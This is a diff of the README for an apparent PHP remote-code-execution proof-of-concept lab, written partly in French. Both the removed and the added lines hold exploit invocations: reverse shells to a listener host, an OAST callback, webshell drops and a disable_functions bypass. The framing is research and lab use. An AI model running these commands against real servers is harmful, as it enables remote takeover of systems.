

Before and after one commit to DevAli00/RCE-POCKET-POC-for-PHP2SHELL, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Revise README for clarity and updated commands
Updated URLs and removed deprecated commands in the README.

````diff
--- a/README.md
+++ b/README.md
@@ -64,26 +64,14 @@ docker compose version             # pour LAB/run.sh
 ```bash
 cd LAB
 ./run.sh up          # build + conteneur bridge, écoute sur toutes les interfaces
-# local : http://127.0.0.1:8486     lan : http://IP_WIFI:8486
+# local : http://127.0.0.1:8486     lan : http://iplan:8486
 ```
 
 ## Exploitation
 
 ```bash
 # détection de poche (n'importe quel serveur PHP)
-php POC/pocket_poc.php --demo
-
-# chaîne distante complète (~2 200 requêtes, oracle de crash prefork)
-python3 POC/php8_remote.py      --url http://127.0.0.1:8486/remote_app.php
-python3 POC/php8_remote_enum.py --url https://127.0.0.1:8483/enum.php --insecure
-
-# preuves : marqueur local, callback OAST, reverse shell, webshell
-python3 POC/php8_remote.py --url http://127.0.0.1:8486/remote_app.php --oast xxxx.oastify.com
-python3 POC/php8_remote.py --url http://127.0.0.1:8486/remote_app.php --reverse IP:4444
-python3 POC/php8_remote.py --url http://127.0.0.1:8486/remote_app.php --webshell c.php
-
-# local (root, disable_functions contourné)
-docker exec php2shell-lab php -d disable_functions=system,exec /PATH/local_exploit.php
+python3 POCKETPOC-PHP2SHELL.py --url http://172.20.10.5:8486/remote_app.php --reverse 172.20.10.5:4444
 ```
 
 ## Résultats vérifiés (php:8.5.11)
@@ -117,5 +105,7 @@ dépôt est un lab : ne l'exposez que sur des réseaux contrôlés, refermez-le
 avec `./run.sh down` après usage.
 
 Crédits recherche : Calif (MAD Bugs, PoC C: public), Nicolas Grekas (GH-23981,
-branche E:). Variantes E:, empaquetage et page : Karim BOUDRA @ ULTRADEFENSE LAB.
-Greetings : CYBERSEC TEAM / ULTRADEFENSE TEAM.
+branche E:). Variantes E:,
+
+POC author : Karim BOUDRA @ ULTRADEFENSE LAB.
+Greetings : CYBERSEC TEAM / ULTRADEFENSE TEAM
````
